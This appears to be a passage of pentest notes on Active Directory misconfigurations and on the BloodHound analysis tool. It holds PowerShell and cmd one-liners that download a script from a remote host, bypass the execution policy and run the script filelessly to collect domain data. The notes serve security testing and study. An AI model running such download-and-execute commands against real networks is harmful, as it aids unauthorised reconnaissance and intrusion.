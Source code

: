 # Active Directory Fun
Active Directory is a complex environment that is easy to misconfigure. 
It is important to understand the various groups and permission types within AD and how they could lead to privledge escalation. 
https://adsecurity.org/?p=3658 

## BloodHound 
BloodHound is a powerful tool used to perform analysis on AD environments.

### Setup
BloodHound can be setup pretty easily on Kali:
https://stealingthe.network/quick-guide-to-installing-bloodhound-in-kali-rolling/

### Bloodhound Powershell Injestion 
A powershell injesetor can be found on the Bloodhound Github repo: 
https://github.com/BloodHoundAD/BloodHound  
/Ingestors/SharpHound.ps1

This can be run "filelessly" from a powershell console (assuming you are hosting the file on your remote server at 10.10.10.10) like so: 
```
PS C:\> IEX(New-Object System.Net.Webclient).DownloadString('http://10.10.10.10/BloodHound.ps1'); Invoke-Bloodhound -CollectionMethod All
```
Or from a Windows commandline console like so:  
```
CMD C:\> @"%SystemRoot%\System32\WindowsPowerShell\v1.0\powershell.exe" -NoProfile -InputFormat None -ExecutionPolicy Bypass -Command "IEX (New-Object System.Net.WebClient).DownloadString('http://10.10.10.10/BloodHound.ps1'); Invoke-Bloodhound -CollectionMethod All"
``` 
BloodHound will run and generate a zip file that you can Drag and Drop into the Neo4j JAVA interface for bloodhound.
BloodHound can 


